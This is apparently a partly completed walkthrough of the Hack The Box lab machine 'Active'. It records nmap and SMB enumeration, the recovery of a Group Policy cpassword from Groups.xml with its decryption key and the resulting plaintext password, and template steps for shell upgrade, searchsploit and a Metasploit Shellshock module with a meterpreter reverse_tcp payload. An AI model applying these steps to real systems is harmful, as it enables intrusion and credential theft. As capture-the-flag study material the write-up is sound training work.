 # active, flow

## Summary

+ the full nmap scan took 1666.20 seconds (27 minutes), in the exam, find web server first.

## prev enum

```sh
sudo nmap -sS -sC -sV -oA ./nmap/full_sS -O -p- 10.129.96.185
  # rename-tab
sudo vim /etc/hosts
```

> 53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
> 88/tcp    open  kerberos-sec  Microsoft Windows Kerberos -> ldap open

+ an the kerberos server usually also has an open ldap and folder share service.

> 389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)

## dns-lookup

```sh
nslookup
> server 10.129.96.185
> 127.0.0.1
  # reverse dns
  # 1.0.0.127.in-addr.arpa  name = localhost.
> 10.129.96.185
  # no return
```

```sh
dnsrecon -d 10.129.96.185 -r 10.129.96.0/24
  # 5 seconds, no result
dnsrecon -d 10.129.96.185 -r 10.0.0.0/8
  # background
```

## detailed enum with nmap

```sh
locate -r '\.nse$' | xargs grep -nw 'categories' | grep -e 'default\|version' | grep 'smb'
  # locate -r use regex
  # the default scripts is  only a few
locate -r '\.nse$' | xargs grep -nw 'categories' | grep -v -e 'default\|version' | grep 'smb' | grep -e 'safe'
nmap --script-help '(smb* and safe) and not (default or version)'
nmap --script '(smb* and safe) and not (default or version)' -p 445 active.htb
  # 30s
nmap --script 'smb-enum-services' -p 445 active.htb -d
  # -d to debug -> the script does not support SMBv2
```

## try with smbclient

```sh
smbclient -L active.htb
  # -L list <host>
  # only folder 'Replication' accessible, READONLY.
```

```sh
smbmap -H active.htb
smbmap -R Replication -H active.htb
  # -R <dirName> Recursively list dirs and files.
smbmap -R Replication -H active.htb -A '.*' --depth 40
  # -A find files that match(regex), and auto download.
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Group Policy\GPE.INI
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
  # [+] Match found! Downloading: Replication\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI
  # [+] Match found! Downloading: Replication\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf

## alternatively, use
## smb: \> recurse ON
## smb: \> prompt OFF
## smb: \> mget *

  # in which, the Groups.xml contains account info
  # cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" ... userName="active.htb\SVC_TGS"
```

+ ref: [gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt/blob/master/gpp-decrypt.py)

```sh
gpp-decrypt <cpassword>
  # from MS doc, the AES key of cpassword is key 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b
  # which is actually AES-256-CBC with IV '\x00' *16 
  # GPPstillStandingStrong2k18
```

## try the account

```sh
smbmap -H active.htb -u 'active.htb\SVC_TGS' -p 'GPPstillStandingStrong2k18' -x 'net user'
  # [!] Authentication error on active.htb
```

## AD enum, impacket

+ ref: [impacket, github](https://github.com/SecureAuthCorp/impacket)

```sh
locate impacket
```

## searchsploit

```sh
search keywords
searchsploit keywords
```

```sh
cdee
cp /usr/share/exploitdb/exploits/example ~/assets/example/temp.php
cda
```

## example-vector

## interactive shell

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
  # C-z to background the shell
stty raw -echo; fg
```

## post enum

```sh
ps aux
sudo -l
```

## privilege escalation

```sh
```

## msf

```msfconsole
msf> search example
  # 2  exploit/multi/http/apache_mod_cgi_bash_env_exec      2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
msf> use 2
msf> show advanced
msf> show options
msf> set RHOSTS example
msf> ...

msf> show payloads
  # 14 payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
msf> set payload 14

msf> run -j
  # meterpreter user shell
```
